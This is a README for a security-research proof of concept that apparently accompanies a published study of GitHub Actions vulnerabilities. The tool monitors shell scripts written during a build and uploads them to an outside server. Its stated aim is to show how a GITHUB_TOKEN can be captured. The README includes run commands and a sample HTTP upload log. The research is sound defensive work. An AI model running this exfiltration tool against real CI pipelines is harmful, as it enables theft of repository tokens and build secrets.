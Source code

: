 # Github Action Shell Monitor

This python utility can help you to monitor modified shell scripts in a directory. 
Whenever it finds such a script, it also sends it to the designated server.

This utility was used as part of our Github Actions vulnerability research which we wrote about at [Cycode's Blog](https://cycode.com/blog/github-actions-vulnerabilities/).

We presented that research on multiple occasions, like [DevSecCon24](https://www.youtube.com/watch?v=zr4nka52Fk0), [Open Source Summit NA 2022](https://www.youtube.com/watch?v=dTrHKa9mbdQ), and **BSidesBud**.

This tool aims to prove the ability to get the `GITHUB_TOKEN` during Github Actions build for future `run` commands.

This script and other similar POCs are used for research purposes to prove attackers' abilities for similar acts and to help build proper security mitigations.

You can find more information on this tool usage [in this repository](https://github.com/CycodeLabs/gh-injection-vuln-demo).

## Setup

Run a simple server that logs all HTTP requests it receives in your lab environment.
You can use our public tool that does exactly the same.
You can run through the following command:

```bash
sudo docker run --rm -it -p 8080:8080 cycodelabs/simple-http-logger
```

## How to Run

### Python

```bash
mkdir monitor
python3 action_monitor.py -d monitor -u <URL>
```

### Docker

```bash
sudo docker build -t actionmonitor .
mkdir monitor
sudo docker run --rm -v ${PWD}/monitor:/app/monitored actionmonitor -u <URL>
```

### Docker (from Docker Hub)

```bash
mkdir monitor
sudo docker run --rm -v ${PWD}/monitor:/app/monitored cycodelabs/actionmonitor -u <URL>
```

## Results

Run this on another session

```bash
echo "echo hello" > hello.sh
```

Watch the results on your lab server terminal.

```bash
Host: lab.cycode.com
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 154
Content-Type: multipart/form-data; boundary=e370d0e0927360a399a54b1b2a2758d1

--e370d0e0927360a399a54b1b2a2758d1
Content-Disposition: form-data; name="upload_file"; filename="hello.sh"

echo hello

--e370d0e0927360a399a54b1b2a2758d1--


1.2.3.4 - - [28/Jul/2022 13:13:17] "POST / HTTP/1.1" 200 -
```